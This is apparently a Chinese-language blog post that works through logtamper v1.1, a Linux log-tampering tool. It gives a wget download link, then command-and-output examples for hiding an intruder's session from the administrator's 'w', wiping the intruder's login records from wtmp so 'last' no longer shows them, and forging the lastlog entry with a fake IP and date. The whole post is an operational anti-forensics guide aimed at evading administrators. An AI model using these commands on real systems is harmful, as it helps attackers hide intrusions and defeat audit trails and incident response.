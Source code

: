```yaml
---
layout: post
title: "linux日志清除分析"
description: ""
category: 技术研究
tags: [痕迹隐藏,logtamper]
---
```

{% include JB/setup %}

## 下载地址 ##

wget http://packetstormsecurity.com/files/download/72410/logtamper_v1_1.tgz


## 用法转载 ##


-f 选项：用于指定要修改的文件的路径的，是个可选项。由于不同系统的日志存放路径不一样，可以手工指定。
默认的日志存放地点是：

	#define UTMPFILE "/var/run/utmp"
	#define WTMPFILE "/var/log/wtmp"
	#define LASTLOGFILE "/var/log/lastlog"


-h 选项: 有时候你和管理员同时在线，管理员w一下就能看到你了。使用-h选项用户躲避管理员w查看，如下：

	[root@localhost logtamper]# w
	21:27:25 up 5 days, 13:48, 4 users, load average: 0.00, 0.00, 0.00
	USER TTY FROM LOGIN@ IDLE JCPU PCPU WHAT
	root tty1 - Fri14 18:24m 0.33s 0.33s -bash
	root pts/3 192.168.80.1 21:21 6:22 0.04s 0.04s -bash
	root pts/2 192.168.80.1 21:06 0.00s 0.13s 0.00s w
	root pts/4 192.168.80.1 21:21 5:52 0.03s 0.03s -bash

我们是从192.168.80.1机器连上来的，现在隐藏下：

	[root@localhost logtamper]# ./logtamper-static -h root 192.168.80.1
	Logtamper v 1.1 for linux
	Copyright (C) 2008 by xi4oyu <evil.xi4oyu@gmail.com>

	Seems you're invisible Now...Check it out!

	[root@localhost logtamper]# w
	21:27:46 up 5 days, 13:48, 1 user, load average: 0.00, 0.00, 0.00
	USER TTY FROM LOGIN@ IDLE JCPU PCPU WHAT
	root tty1 - Fri14 18:24m 0.33s 0.33s -bash
	[root@localhost logtamper]#

-w 选项:用于清除你的登录日志，现在上的linux日志清除工具做的很粗燥啊，这个可以指定清除某些hostname过来的机器。

	[root@localhost logtamper]# last
	root tty1 Wed Oct 1 21:30 - 21:30 (00:00)
	root pts/4 192.168.80.1 Wed Oct 1 21:21 still logged in
	root pts/3 192.168.80.1 Wed Oct 1 21:21 still logged in

wtmp begins Wed Oct 1 06:01:46 2008

清除192.168.80.1的登录日志：

	[root@localhost logtamper]# ./logtamper-static -w root 192.168.80.1
	Logtamper v 1.1 for linux
	Copyright (C) 2008 by xi4oyu <evil.xi4oyu@gmail.com>

	Aho,you are now invisible to last...Check it out!
	[root@localhost logtamper]# last
	root tty1 Wed Oct 1 21:30 - 21:30 (00:00)

	wtmp begins Wed Oct 1 06:01:46 2008
	[root@localhost logtamper]#

-m 选项:用于修改上次登录地点，我们使用ssh登录的时候可能会注意到这点
	login as: root
	Sent username "root"
	root@192.168.80.128's password:
	Last login: Wed Oct 1 21:31:40 2008 from 192.168.80.45
	[root@localhost ~]#

如果不修改lastlog的话，管理员下次登录就会提示从我们的机器IP登录。使用-m选项可以编辑这个选项：

	[root@localhost logtamper]# ./logtamper-static -m root 1.2.3.4 tty10 2008:1:1:1:1:1
	Logtamper v 1.1 for linux
	Copyright (C) 2008 by xi4oyu <evil.xi4oyu@gmail.com>

	Aho, now you never come here before...Check it out!
	[root@localhost logtamper]#
当然，这只是个举例，在使用中各位请根据具体信息修改，下次管理员登录，登录界面就成了

	login as: root
	Sent username "root"
	root@192.168.80.128's password:
	Last login: Tue Jan 1 01:01:01 2008 from 1.2.3.4
	[root@localhost ~]#
恩，就这么多了，有什么问题，发邮件 evil.xi4oyu@gmail.com

## logtamper使用 ##

参考资料:

[packetstorm](http://packetstormsecurity.com/files/author/6242/)

[logtamper-v1.0 修改linux 日志的工具](http://huaidan.org/archives/1929.html)

[logtamper](http://huaidan.org/archives/2564.html)
